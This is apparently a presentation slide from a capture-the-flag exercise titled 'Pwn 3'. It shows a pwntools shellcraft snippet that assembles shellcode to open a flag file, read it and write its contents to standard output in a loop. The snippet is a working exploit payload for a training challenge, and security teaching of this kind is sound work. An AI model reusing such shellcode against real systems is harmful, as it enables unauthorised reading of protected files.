

# Pwn 3
# pwntools
s = ''
s += shellcraft.pushstr('/home/pwn3/flag')
s += shellcraft.open('rsp', 	constants.O_RDONLY, 0)
s += shellcraft.mov('r12', 'rax')
s += 'here:'
s += shellcraft.read('r12', 'rsp', 41)
s += shellcraft.write(1, 'rsp', 'rax')
s += 'jmp here'
61